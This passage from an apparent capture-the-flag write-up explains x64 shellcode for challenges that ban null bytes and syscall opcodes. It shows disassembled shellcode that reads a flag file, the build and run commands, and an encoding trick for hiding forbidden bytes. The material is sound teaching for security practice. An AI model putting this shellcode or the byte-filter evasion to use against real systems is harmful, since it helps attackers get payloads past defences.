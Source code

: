 ```
0000002A  4831D2            xor rdx,rdx
0000002D  B21E              mov dl,0x1e
0000002F  0F05              syscall
00000031  4831C0            xor rax,rax
00000034  B03C              mov al,0x3c
00000036  4831FF            xor rdi,rdi
00000039  0F05              syscall
0000003B  E8C7FFFFFF        call 0x7
00000040  2F                db 0x2f
00000041  686F6D652F        push qword 0x2f656d6f
00000046  63                db 0x63
00000047  7466              jz 0xaf
00000049  2F                db 0x2f
0000004A  666C              o16 insb
0000004C  61                db 0x61
0000004D  672E7478          cs jz 0xc9
00000051  74                db 0x74
```

Notice how the call function is now padded with FF bytes? That's what I was explaining above about a negative offset:

```
0000003B  E8C7FFFFFF        call 0x7
```

And, of course, validate that it still works:

```
$ nasm -o solution2.bin solution2.asm
$ ./runme2 < ./solution2.bin 
Send me x64!! No nulls, plz
CTF{fake_flag}
```

## Runme3

This is where it actually gets really hard. In addition to disallowing NULL bytes, I also disallow the bytes required for <tt>syscall</tt>, which also apparently breaks MSFVenom's encoder!

Typically, the syscall instruction is 0F 05:

```
00000039  0F05              syscall
```

But those exact bytes aren't allowed! How do you get around THAT restriction?

There are many ways, and the most common way is to use an encoder. And encoder basically XORs each byte with a set value, which changes it to something else. At the start of the shellcode, you XOR by that value again, and voila! You have the original code back! That's called an encoder, and is often used for hiding malicious payloads. But we can do something a bit easier (or harder, I dunno).

The way I solved that was to put the syscall bytes, minus one, at the bottom of the code, the same way I put the flag path there, followed by a return instruction. It's a mini encoded function! Then I get a pointer to it using the same jmp/call/pop trick from earlier, and add 1 to each byte. That gives me a very small function I can call that simply performs a syscall.
